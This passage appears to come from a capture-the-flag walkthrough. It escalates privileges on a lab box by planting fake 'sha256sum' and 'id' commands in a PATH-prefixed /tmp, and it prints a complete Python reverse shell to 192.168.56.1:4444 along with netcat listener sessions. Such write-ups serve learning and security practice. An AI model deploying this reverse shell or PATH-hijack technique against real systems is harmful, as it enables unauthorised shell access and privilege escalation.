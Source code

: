 This should give you a pretty good idea of what is potentially going on in the binary, like:

   - Check the sha256sum of /gome/bazza/part matches 900462fbf9593f1a4b753f1729c431abc80932a151e9b293e13822a91f9641c1
   - Check the sha256sum of /usr/bin/id matches 1003a011c5bdb65a07a8f92feb6b7d7ecbf3a3ff0f2a46abbe5c777c525996d8
   - Eventually Fail if these don’t match.

The key lies in the fact that the `sha256sum` command does not appear to be called from its full path location ie: /usr/bin/sha256sum. So, similar to how we fooled the `chmod` earlier, we are going to do exactly the same with the `sha256sum`.

As before, we create a _evil sha256sum_ command, which is actually just a python script to spawn `/bin/sh`, then prefix `PATH` with `/tmp` and run `./part1`. For this one however, I was having trouble with the pty.spawn() and didn't really feel like troubleshooting that much. So I opted for a (reverse shell)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] payload instead to open on a netcat listener that I have on my host laptop:

```python Reverse Shell
#!/usr/bin/python
import socket,subprocess,os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.1",4444))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p = subprocess.call(["/bin/sh","-i"])
```

I spawned a `netcat` listener on my laptop using `nc -l 4444`, and ran `./part1`:


```bash Answered netcat
→ nc -l 4444
$ id
uid=1004(bazza) gid=1004(bazza) egid=1003(developers) groups=1004(bazza)
```

Notice that I was now in the `developers` group. I was now allowed to run `./part2` too... with a verbose line showing me the permissions I would need to gain access to `/home/oj`:

```bash bazza Part2 test
$ ./part2
uid=1004(bazza) gid=1004(bazza) euid=1005(oj) egid=1003(developers) groups=1005(oj),1004(bazza)

Can't touch this *nah na na na na naaaaaaaa nah*
$
```
And, as expected, I spent some time on this binary too. I didn't expect `part2` to be any easier :P
After taking a break, I realized that the output that looks like that of `/usr/bin/id`, probably **is** that if it. So, off I went and did another `sha256sum`, type script, this time just with another reverse shell to port 4445, and naming it `id` so that part2 will pick it up:

```bash bazza Part2 reverse shell
→ nc -l 4445
$ /usr/bin/id
uid=1004(bazza) gid=1004(bazza) euid=1005(oj) egid=1003(developers) groups=1005(oj),1004(bazza)

$ cd /home/oj
$ ls -lh
total 584K
-r-sr-xr-x 1 root root 579K Jul  5 21:12 echo
-rw-r--r-- 1 root root  154 Jul  5 21:06 How to be an infosec rockstar 101.txt
$
```
